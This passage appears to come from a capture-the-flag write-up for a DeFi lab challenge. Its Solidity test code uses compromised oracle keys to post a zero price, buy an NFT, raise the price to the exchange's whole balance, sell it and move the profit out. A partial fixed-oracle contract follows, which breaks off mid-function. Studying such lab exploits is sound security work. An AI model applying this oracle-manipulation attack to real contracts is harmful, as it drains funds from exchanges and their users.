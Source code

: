 ```solidity
    
    vm.startPrank(oracle2);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();
    
    // Buy NFT at 0 price
    uint256 tokenId = exchange.buyOne{value: 1 wei}();
    
    // Manipulate price to maximum
    vm.startPrank(oracle1);
    oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
    vm.stopPrank();
    
    vm.startPrank(oracle2);
    oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
    vm.stopPrank();
    
    // Approve and sell NFT at high price
    nft.approve(address(exchange), tokenId);
    exchange.sellOne(tokenId);
    
    // Reset price to original value
    vm.startPrank(oracle1);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();
    
    vm.startPrank(oracle2);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();
    
    // Send profits to recovery
    payable(recovery).transfer(address(this).balance);
}
```

### Why it works
1. Compromised oracle private keys allow price manipulation
2. Set price to 0, buy NFT cheaply
3. Set price to maximum, sell NFT for profit
4. Oracle requires only 2 of 3 signatures, which we control

### Fix
```solidity
// Add price bounds and time delays
contract FixedOracle {
    uint256 public constant MAX_PRICE_CHANGE = 10; // 10% max change
    uint256 public constant PRICE_UPDATE_DELAY = 1 hours;
    mapping(string => uint256) public lastUpdateTime;
    mapping(string => uint256) public lastPrice;
    
    function postPrice(string calldata symbol, uint256 newPrice) external {
        require(isOracle[msg.sender], "Unauthorized");
        require(
            block.timestamp >= lastUpdateTime[symbol] + PRICE_UPDATE_DELAY,
            "Too soon"
        );
        
        uint256 oldPrice = lastPrice[symbol];
        if (oldPrice > 0) {
            require(
                newPrice <= oldPrice * (100 + MAX_PRICE_CHANGE) / 100 &&
                newPrice >= oldPrice * (100 - MAX_PRICE_CHANGE) / 100,
                "Price change too large"
```
